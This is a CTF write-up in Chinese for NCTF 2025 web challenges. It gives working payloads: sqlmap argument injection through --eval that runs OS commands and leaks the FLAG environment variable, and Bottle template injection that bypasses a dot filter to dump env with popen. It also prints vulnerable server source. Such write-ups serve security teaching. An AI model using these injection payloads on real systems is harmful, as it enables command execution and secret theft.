# NCTF 2025 Web Writeup&Challenge Walkthrough


NCTF 2025 Web Writeup&Challenge Walkthrough

# sqlmap-master



打开题目，一个输入框


当点击 `Inject` 会触发 `runInject()` 函数体执行，将写入的内容通过 HTTP POST 请求发送给 `/run` 路由，并异步接收来自路由的响应数据，然后逐步将响应内容显示在页面上


下载题目附件


**源码分析**
源码很短也很简单，使用 `FastAPI` 框架搭建网站，提供了两个路由：根路由，返回首页 `index.html`，另一个 `/run` 路由，用来接收来自前端的 URL 参数并触发 **sqlmap** 执行，执行结果通过 `StreamingResponse` 传输给前端

```
# main.py
from fastapi import FastAPI, Request
from fastapi.responses import FileResponse, StreamingResponse
import subprocess

app = FastAPI()

@app.get("/")
async def index():
    return FileResponse("index.html")

@app.post("/run")
async def run(request: Request):
    data = await request.json()
    url = data.get("url")
    
    if not url:
        return {"error": "URL is required"}
    
    command = f'sqlmap -u {url} --batch --flush-session'

    def generate():
        process = subprocess.Popen(
            command.split(),
            stdout=subprocess.PIPE,
            stderr=subprocess.STDOUT,
            shell=False
        )
        
        while True:
            output = process.stdout.readline()
            if output == '' and process.poll() is not None:
                break
            if output:
                yield output
    
    return StreamingResponse(generate(), media_type="text/plain")
```

靶机不出网，随便输入，页面返回了 SQLMAP 的执行结果


 `subprocess.Popen()` 设置 `shell=False`，无法使用常规的命令注入技巧，但 `SQLMAP` 参数仍然可控，`Github` 检索一下 `sqlmap` 可利用的参数：

```
Usage: python sqlmap.py [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -d DIRECT           Connection string for direct database connection
    -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
    -m BULKFILE         Scan multiple targets given in a textual file
    -r REQUESTFILE      Load HTTP request from a file
    -g GOOGLEDORK       Process Google dork results as target URLs
    -c CONFIGFILE       Load options from a configuration INI file

  Request:
    These options can be used to specify how to connect to the target URL

    -A AGENT, --user..  HTTP User-Agent header value
    -H HEADER, --hea..  Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
    --method=METHOD     Force usage of given HTTP method (e.g. PUT)
    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --param-del=PARA..  Character used for splitting parameter values (e.g. &)
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --cookie-del=COO..  Character used for splitting cookie values (e.g. ;)
    --live-cookies=L..  Live cookies file used for loading up-to-date values
    --load-cookies=L..  File containing cookies in Netscape/wget format
    --drop-set-cookie   Ignore Set-Cookie header from response
    --mobile            Imitate smartphone through HTTP User-Agent header
    --random-agent      Use randomly selected HTTP User-Agent header value
    --host=HOST         HTTP Host header value
    --referer=REFERER   HTTP Referer header value
    --headers=HEADERS   Extra headers (e.g. "Accept-Language: fr\nETag: 123")
    --auth-type=AUTH..  HTTP authentication type (Basic, Digest, NTLM or PKI)
    --auth-cred=AUTH..  HTTP authentication credentials (name:password)
    --auth-file=AUTH..  HTTP authentication PEM cert/private key file
    --ignore-code=IG..  Ignore (problematic) HTTP error code (e.g. 401)
    --ignore-proxy      Ignore system default proxy settings
    --ignore-redirects  Ignore redirection attempts
    --ignore-timeouts   Ignore connection timeouts
    --proxy=PROXY       Use a proxy to connect to the target URL
    --proxy-cred=PRO..  Proxy authentication credentials (name:password)
    --proxy-file=PRO..  Load proxy list from a file
    --proxy-freq=PRO..  Requests between change of proxy from a given list
    --tor               Use Tor anonymity network
    --tor-port=TORPORT  Set Tor proxy port other than default
    --tor-type=TORTYPE  Set Tor proxy type (HTTP, SOCKS4 or SOCKS5 (default))
    --check-tor         Check to see if Tor is used properly
    --delay=DELAY       Delay in seconds between each HTTP request
    --timeout=TIMEOUT   Seconds to wait before timeout connection (default 30)
    --retries=RETRIES   Retries when the connection timeouts (default 3)
    --randomize=RPARAM  Randomly change value for given parameter(s)
    --safe-url=SAFEURL  URL address to visit frequently during testing
    --safe-post=SAFE..  POST data to send to a safe URL
    --safe-req=SAFER..  Load safe HTTP request from a file
    --safe-freq=SAFE..  Regular requests between visits to a safe URL
    --skip-urlencode    Skip URL encoding of payload data
    --csrf-token=CSR..  Parameter used to hold anti-CSRF token
    --csrf-url=CSRFURL  URL address to visit for extraction of anti-CSRF token
    --csrf-method=CS..  HTTP method to use during anti-CSRF token page visit
    --csrf-retries=C..  Retries for anti-CSRF token retrieval (default 0)
    --force-ssl         Force usage of SSL/HTTPS
    --chunked           Use HTTP chunked transfer encoded (POST) requests
    --hpp               Use HTTP parameter pollution method
    --eval=EVALCODE     Evaluate provided Python code before the request (e.g.
                        "import hashlib;id2=hashlib.md5(id).hexdigest()")

  Optimization:
    These options can be used to optimize the performance of sqlmap

    -o                  Turn on all optimization switches
    --predict-output    Predict common queries output
    --keep-alive        Use persistent HTTP(s) connections
    --null-connection   Retrieve page length without actual HTTP response body
    --threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --skip=SKIP         Skip testing for given parameter(s)
    --skip-static       Skip testing parameters that not appear to be dynamic
    --param-exclude=..  Regexp to exclude parameters from testing (e.g. "ses")
    --param-filter=P..  Select testable parameter(s) by place (e.g. "POST")
    --dbms=DBMS         Force back-end DBMS to provided value
    --dbms-cred=DBMS..  DBMS authentication credentials (user:password)
    --os=OS             Force back-end DBMS operating system to provided value
    --invalid-bignum    Use big numbers for invalidating values
    --invalid-logical   Use logical operations for invalidating values
    --invalid-string    Use random strings for invalidating values
    --no-cast           Turn off payload casting mechanism
    --no-escape         Turn off string escaping mechanism
    --prefix=PREFIX     Injection payload prefix string
    --suffix=SUFFIX     Injection payload suffix string
    --tamper=TAMPER     Use given script(s) for tampering injection data

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)
    --string=STRING     String to match when query is evaluated to True
    --not-string=NOT..  String to match when query is evaluated to False
    --regexp=REGEXP     Regexp to match when query is evaluated to True
    --code=CODE         HTTP code to match when query is evaluated to True
    --smart             Perform thorough tests only if positive heuristic(s)
    --text-only         Compare pages based only on the textual content
    --titles            Compare pages based only on their titles

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
    --time-sec=TIMESEC  Seconds to delay the DBMS response (default 5)
    --union-cols=UCOLS  Range of columns to test for UNION query SQL injection
    --union-char=UCHAR  Character to use for bruteforcing number of columns
    --union-from=UFROM  Table to use in FROM part of UNION query SQL injection
    --dns-domain=DNS..  Domain name used for DNS exfiltration attack
    --second-url=SEC..  Resulting page URL searched for second-order response
    --second-req=SEC..  Load second-order HTTP request from file

  Fingerprint:
    -f, --fingerprint   Perform an extensive DBMS version fingerprint

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --hostname          Retrieve DBMS server hostname
    --is-dba            Detect if the DBMS current user is DBA
    --users             Enumerate DBMS users
    --passwords         Enumerate DBMS users password hashes
    --privileges        Enumerate DBMS users privileges
    --roles             Enumerate DBMS users roles
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --count             Retrieve number of entries for table(s)
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    --search            Search column(s), table(s) and/or database name(s)
    --comments          Check for DBMS comments during enumeration
    --statements        Retrieve SQL statements being run on DBMS
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate
    -X EXCLUDE          DBMS database identifier(s) to not enumerate
    -U USER             DBMS user to enumerate
    --exclude-sysdbs    Exclude DBMS system databases when enumerating tables
    --pivot-column=P..  Pivot column name
    --where=DUMPWHERE   Use WHERE condition while table dumping
    --start=LIMITSTART  First dump table entry to retrieve
    --stop=LIMITSTOP    Last dump table entry to retrieve
    --first=FIRSTCHAR   First query output word character to retrieve
    --last=LASTCHAR     Last query output word character to retrieve
    --sql-query=SQLQ..  SQL statement to be executed
    --sql-shell         Prompt for an interactive SQL shell
    --sql-file=SQLFILE  Execute SQL statements from given file(s)

  Brute force:
    These options can be used to run brute force checks

    --common-tables     Check existence of common tables
    --common-columns    Check existence of common columns
    --common-files      Check existence of common files

  User-defined function injection:
    These options can be used to create custom user-defined functions

    --udf-inject        Inject custom user-defined functions
    --shared-lib=SHLIB  Local path of the shared library

  File system access:
    These options can be used to access the back-end database management
    system underlying file system

    --file-read=FILE..  Read a file from the back-end DBMS file system
    --file-write=FIL..  Write a local file on the back-end DBMS file system
    --file-dest=FILE..  Back-end DBMS absolute filepath to write to

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-cmd=OSCMD      Execute an operating system command
    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC
    --os-smbrelay       One click prompt for an OOB shell, Meterpreter or VNC
    --os-bof            Stored procedure buffer overflow exploitation
    --priv-esc          Database process user privilege escalation
    --msf-path=MSFPATH  Local path where Metasploit Framework is installed
    --tmp-path=TMPPATH  Remote absolute path of temporary files directory

  Windows registry access:
    These options can be used to access the back-end database management
    system Windows registry

    --reg-read          Read a Windows registry key value
    --reg-add           Write a Windows registry key value data
    --reg-del           Delete a Windows registry key value
    --reg-key=REGKEY    Windows registry key
    --reg-value=REGVAL  Windows registry key value
    --reg-data=REGDATA  Windows registry key value data
    --reg-type=REGTYPE  Windows registry key value type

  General:
    These options can be used to set some general working parameters

    -s SESSIONFILE      Load session from a stored (.sqlite) file
    -t TRAFFICFILE      Log all HTTP traffic into a textual file
    --answers=ANSWERS   Set predefined answers (e.g. "quit=N,follow=N")
    --base64=BASE64P..  Parameter(s) containing Base64 encoded data
    --base64-safe       Use URL and filename safe Base64 alphabet (RFC 4648)
    --batch             Never ask for user input, use the default behavior
    --binary-fields=..  Result fields having binary values (e.g. "digest")
    --check-internet    Check Internet connection before assessing the target
    --cleanup           Clean up the DBMS from sqlmap specific UDF and tables
    --crawl=CRAWLDEPTH  Crawl the website starting from the target URL
    --crawl-exclude=..  Regexp to exclude pages from crawling (e.g. "logout")
    --csv-del=CSVDEL    Delimiting character used in CSV output (default ",")
    --charset=CHARSET   Blind SQL injection charset (e.g. "0123456789abcdef")
    --dump-format=DU..  Format of dumped data (CSV (default), HTML or SQLITE)
    --encoding=ENCOD..  Character encoding used for data retrieval (e.g. GBK)
    --eta               Display for each output the estimated time of arrival
    --flush-session     Flush session files for current target
    --forms             Parse and test forms on target URL
    --fresh-queries     Ignore query results stored in session file
    --gpage=GOOGLEPAGE  Use Google dork results from specified page number
    --har=HARFILE       Log all HTTP traffic into a HAR file
    --hex               Use hex conversion during data retrieval
    --output-dir=OUT..  Custom output directory path
    --parse-errors      Parse and display DBMS error messages from responses
    --preprocess=PRE..  Use given script(s) for preprocessing (request)
    --postprocess=PO..  Use given script(s) for postprocessing (response)
    --repair            Redump entries having unknown character marker (?)
    --save=SAVECONFIG   Save options to a configuration INI file
    --scope=SCOPE       Regexp for filtering targets
    --skip-heuristics   Skip heuristic detection of SQLi/XSS vulnerabilities
    --skip-waf          Skip heuristic detection of WAF/IPS protection
    --table-prefix=T..  Prefix used for temporary tables (default: "sqlmap")
    --test-filter=TE..  Select tests by payloads and/or titles (e.g. ROW)
    --test-skip=TEST..  Skip tests by payloads and/or titles (e.g. BENCHMARK)
    --web-root=WEBROOT  Web server document root directory (e.g. "/var/www")

  Miscellaneous:
    These options do not fit into any other category

    -z MNEMONICS        Use short mnemonics (e.g. "flu,bat,ban,tec=EU")
    --alert=ALERT       Run host OS command(s) when SQL injection is found
    --beep              Beep on question and/or when SQLi/XSS/FI is found
    --dependencies      Check for missing (optional) sqlmap dependencies
    --disable-coloring  Disable console output coloring
    --list-tampers      Display list of available tamper scripts
    --offline           Work in offline mode (only use session data)
    --purge             Safely remove all content from sqlmap data directory
    --results-file=R..  Location of CSV results file in multiple targets mode
    --shell             Prompt for an interactive sqlmap shell
    --tmp-dir=TMPDIR    Local directory for storing temporary files
    --unstable          Adjust options for unstable connections
    --update            Update sqlmap
    --wizard            Simple wizard interface for beginner users
```


看到这两个

```
--eval=EVALCODE     Evaluate provided Python code before the request (e.g.
                    "import hashlib;id2=hashlib.md5(id).hexdigest()")
-c CONFIGFILE       Load options from a configuration INI file
```
`--eval` 能够运行 `python` 代码，执行系统命令，写入文件并用 `-c` 读取文件内容，`-c` 的内容会回显在 `sqlmap` 的执行结果中


将内容写入 `sql1` 中

```
sqlmap -u `127.0.0.1 --eval eval("__import__('os').system('ls$IFS-m$IFS/>>sql1')")` --batch --flush-session
```



读取


```
sqlmap -u `127.0.0.1 -c sql1` --batch --flush-session
```


读取成功，但 flag 不在根目录



NCTF 题目的所有 FLAG 都存储在环境变量 FLAG 中



直接读取 FLAG 环境变量，得到 flag

```
127.0.0.1 --eval eval("__import__('os').system('echo$IFS$FLAG>>sql2')")
127.0.0.1 -c sql2
```



# ez_dash(复现)


源码
```
#source.txt
from typing import Optional

import pydash
import bottle

__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
               '__code__', '__defaults__', '__delattr__', '__dict__',
               '__dir__', '__doc__', '__eq__', '__format__',
               '__ge__', '__get__', '__getattribute__',
               '__gt__', '__hash__', '__init__', '__init_subclass__',
               '__kwdefaults__', '__le__', '__lt__', '__module__',
               '__name__', '__ne__', '__new__', '__qualname__',
               '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
               '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
               "Optional","func","render",
               ]
__forbidden_name__=[
    "bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))

def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
        if name == word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj = globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path = bottle.request.json.get('path')
    if not isinstance(path,str):
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value = bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path = bottle.request.query.get('path')
    if path.find("{") >= 0 or path.find("}") >= 0 or path.find(".")>=0:
        return "Hacker"
    return bottle.template(path)
bottle.run(host = '0.0.0.0', port = 8000)
```


我们翻看 `Bottle`文档模板引擎部分，能很轻易的发现模板注入

```
return bottle.template(path)
```



尽管程序过滤了`.{}`，但`Bottle`模板引擎还支持 `%`的写法，能解析`Python`代码



所以思路是直接模板注入，不用管 `_set`，题目过滤了`.` 我们可以通过编码绕过

```
if path.find("{") >= 0 or path.find("}") >= 0 or path.find(".")>=0:
	return "Hacker"
```


命令执行`Payload` 如下，发包时记得进行一层URL编码

```
/render?path=% eval("__import__('os')"+chr(46)+"popen('env>a')")
/render?path=a
```



# ez_dash_revenge(复现)


已复现

详细请看 - 初识原型链污染篇章：

https://oct1sec.top/2025/04/10/%E5%88%9D%E8%AF%86Python%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/


# H2 Revenge(暂未复现)




# internal_api(暂未复现)




---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/nctf-2025%E6%98%A5%E5%AD%A3%E8%B5%9B/  

